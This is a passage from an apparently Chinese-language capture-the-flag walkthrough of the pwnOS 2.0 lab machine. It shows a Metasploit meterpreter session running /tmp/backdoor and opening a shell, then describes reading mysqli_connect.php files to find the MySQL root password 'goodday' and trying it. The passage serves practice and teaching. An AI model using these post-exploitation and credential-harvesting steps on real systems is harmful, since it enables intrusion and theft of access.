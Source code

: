 ```bash
msf exploit(handler) > sessions -i -1
meterpreter > execute -f /tmp/backdoor
Process 883 created.
meterpreter > shell
```

根据目录翻阅文件，寻找有用的信息。找到了`mysqli_connect.php`文件，查看内容，找到了`root`账户和`goodday`密码，尝试`mysql -u root -p`连接，但是失败：

![](/img/game/pwnos2.0/1511838252360.png)

继续往上一级目录翻，又找到了一个`mysqli_connect.php`，查看又有root账户和密码，结果连接mysql没有回显错误：

![root密码所在文件](/img/game/pwnos2.0/1511838529882.png)
